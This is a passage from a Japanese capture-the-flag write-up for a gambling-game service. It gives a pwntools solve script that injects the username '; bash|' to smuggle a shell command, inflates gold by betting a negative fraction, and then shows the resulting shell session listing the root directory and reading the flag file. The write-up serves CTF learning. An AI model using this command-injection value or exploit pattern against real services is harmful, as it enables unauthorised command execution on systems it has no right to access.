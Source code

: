 ```
```

ポイントを稼がずにゴールドを増やすことができました。このまま自動で 250 ゴールドまで貯めて、ゲームのロードまでしてくれるスクリプトを書いてみましょう。

最初に入力するユーザ名は `; bash|` にしておいて `bash` が実行されるようにしておきます。

```python
from pwn import *
sock = remote('(省略)', 7777)
sock.recvuntil('+ Auth?> ')
sock.sendline('35ec04cd3b79ab89896836c69257ce86487cf55f')
sock.recvuntil('+ Who r u?: ')
sock.sendline('; bash|')

gold = 0
while gold < 250:
  sock.recvuntil('* u hav ')
  points = float(sock.recvline().split(' ')[-2])
  sock.recvuntil('* u hav ')
  gold = float(sock.recvline().split(' ')[-2])
  print points, gold

  sock.recvuntil('> ')
  sock.sendline('3')
  sock.recvuntil('> ')
  sock.sendline('-.999999')

sock.recvuntil('> ')
sock.sendline('5')
sock.interactive()
```

```
$ python solve.py
︙
ctf@rekter0-flood:~$ ls / >& 2
app                                              lib         sbin
bin                                              lib64       snap
boot                                             lost+found  srv
dev                                              media       sys
etc                                              mnt         tmp
fcad0373020fa6ede979389f558b396f4cd38ec1_README  opt         usr
home                                             proc        var
initrd.img                                       root        vmlinuz
initrd.img.old                                   run         vmlinuz.old
ctf@rekter0-flood:~$ cat /fcad0373020fa6ede979389f558b396f4cd38ec1_README >& 2
3k{p333rl_aInt_7hat_deAd_Y3t}
```

フラグが得られました。

```
3k{p333rl_aInt_7hat_deAd_Y3t}
```
